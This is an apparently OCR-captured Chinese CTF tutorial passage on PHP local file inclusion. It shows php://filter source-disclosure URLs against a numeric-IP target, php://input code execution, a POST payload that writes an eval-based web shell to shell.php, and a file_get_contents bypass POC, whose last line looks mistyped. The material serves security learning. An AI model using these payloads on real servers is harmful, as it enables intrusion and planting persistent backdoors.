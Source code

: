  ```php
1、若是使用相对路径，则会包含失败。
2、协议原型：zip://archive.zip#dir/file.txt
3、注意url编码,因为这个#会和url协议中的#冲突
 ```

## CTF中的文件包含套路

### php伪协议读取源码

点击login，发现链接变为：

```php
http://54.222.188.152:1/index.php
?action=login.php
```

推测文件包含 访问：

```php
http://54.222.188.152:1/index.php
POC1:  ?action=php://filter/read=convert.base64-encode/resource=login.php  (Base64加密)
POC2:  ?action=php://filter/resource=login.php  (大多数信息无法直接实现到浏览器)
```

### php://input 

任意代码执行:

```php
index.php
?file=php://input

利用post任意代码执行
<? phpinfo();?>
利用post写shell:
<?PHP fputs(fopen('shell.php','w'),'<?php @eval($_POST[cmd])?>');?>
```

文件内容绕过:

```php
-------文件源码---------
//test.php
<?php
show_source(__FILE__);
include('flag.php');
$a= $_GET["a"];
if(isset($a)&&(file_get_contents($a,'r')) === 'this is flag'){
	echo "success\n";
	echo $flag;
}

//flag.php
<?php
$flag = 'flag{flag_is_here}';
?>
--------POC---------
tesp.php?a=php://input=this is flag
```

待更新。。。
